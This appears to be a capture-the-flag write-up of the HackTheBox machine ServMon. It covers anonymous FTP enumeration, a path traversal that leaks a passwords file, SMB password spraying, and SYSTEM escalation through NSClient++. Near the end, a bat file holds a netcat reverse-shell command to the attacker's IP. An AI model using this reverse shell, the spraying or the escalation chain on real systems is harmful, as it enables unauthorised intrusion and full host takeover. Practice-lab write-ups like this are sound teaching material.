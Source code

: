 ```yaml
---
title: HackTheBox ServMon
published: true
---
```



## 0x0 Introduction
Yet another Windows box. In this one  we use anonymous ftp access to find out about the existens of some internal files and then abuse a path traversal vulnerability to get hold of these files. Once we are on the box we use an exploit for NSClient++ to escalate privileges to System. 
![image](/assets/images/ServMon/servmon-pic.png "ServMon")

## 0x1 Getting a foothold and the user.txt

As always I started with a nmap scan (I left out some not all that relevant skript results to keep the output short)

```
$ nmap -sC -sV -oN nmap 10.10.10.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:52 CEST
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open  http
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  nrpe?
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
```
The first things to look at here are the Website, the anonymous login ftp, and maybe smb.  
The Website only gave us a login page with not much else to see tho, so lets not waste too much time there.
SMB did not allow anonymous login, which means without credentials we can't do much there either.
FTP does allow anonymous login tho and contained some interesting Information:
```
$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:mindslave): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```
Going into the Nadine and Nathan directory we also got two .txt files the first is in Nadines directory, it's called Confidental.txt 

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
```
The second one is in Nathans directory and is called 'Notes to do.txt' (to download this file via ftp u had to use \ for the whitespaces: get Notes\ to\ do.txt)
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

I Found the NSClient that Nathan was talking about on 10.10.10.184:8443, for this I had to go take another look at the nmap result from before:
```
8443/tcp  open  https-alt
```

Upon clicking 'forgot password' on the NSClient application it told me run the following commands, what a goofy application. 
```
nscp web -- password --display
nscp web -- password --set new-password testing
```

looking up NSClient in searchsploit brought up a Priveledge escalation so this might be useful for getting the root flag latter on.  
That means once we are on the box we can get the password for NSClient++ easily and possibly get root that way, right now that's not very helpful tho, so lets move on.
Next thing that I looked for was anonymous access to the rpcclient but with no success
```
rpcclient -U "" -N 10.10.10.184                                                                                                                          
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

Now I started looking into this 'napster' thing thats running on the box on port 6699, seems to be some music download service, a very old one tho, there are only 2 public cve's for napster one from 1999 and one from 2000.


Tried to exploit the nrpe (part of nagios) that's running on the box, but no success

```
$ /usr/lib/nagios/plugins/check_nrpe -H 10.10.10.184
CHECK_NRPE: Error - Could not connect to 10.10.10.184. Check system logs on 10.10.10.184
```

So, after all of this failed, I went back to the frontdoor of the box, the nvms-1000 running on port 80. It turns out that this thing has a 'path traversal' vulnerability, and since we know that nathan has a 'Passwords.txt' file on his desktop, that comes in very handy.  
I send a request to the application intercepted it with burp and used the repeater to find the 'passwords.txt' file.

![image](/assets/images/ServMon/Burp-path-traversal.png "path traversal")

Now I have a few possible passwords:
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

none of these worked on nvms-1000 nor on NSClient++ but trying them out on smb gave me a hit:

```
$ crackmapexec smb 10.10.10.184 -u Nathan -p pw.txt 
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)                         
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE                                                       
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE                                                              
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE                                                         
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE                                                          
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE

$ crackmapexec smb 10.10.10.184 -u Nadine -p pw.txt                                                                                 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE                                                       
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
```

```
$ smbmap -u Nadine -p 'L1k3B1gBut7s@W0rk' -H 10.10.10.184 
[+] IP: 10.10.10.184:445        Name: 10.10.10.184                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

And it also worked for as Nadines ssh password, which gave us the user.txt
```
nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
23/05/2020  10:23                34 user.txt
```

# 0x02 Getting the root.txt
Now that we are logged in as Nadine we can get the password for the nsclient++ instance that we have discovered before
```
nadine@SERVMON C:\>"Program Files\NSClient++\nscp.exe" web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
Because the page is only accessible from localhost we had to use ssh port forwarding to access the nsclient++ from our maschine. 
```
$ ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```


Next, there are 2 things we need to copy over to the ServMon maschine, first a bat file with the following content to execute netcat:

```
@echo off
c:\temp\nc.exe 10.10.14.103 9001 -e cmd.exe
```

And of course the nc.exe itself, to bring both of these over to ServMon I used scp:

```
$ scp boese.bat nadine@10.10.10.184:/temp
$ scp nc.exe nadine@10.10.10.184:/temp
```

Now we configure the NSClient++ to run our boese.bat file, and since NSClient++ has to run with root or system privileges, this will give us a shell as System.

![image](/assets/images/ServMon/nsclient-script.png "NSClient++")

Once you have that configured you hit Control -> Reload, wait a second or two and you will have your shell as System

![image](/assets/images/ServMon/servmon-system.png "We are system")
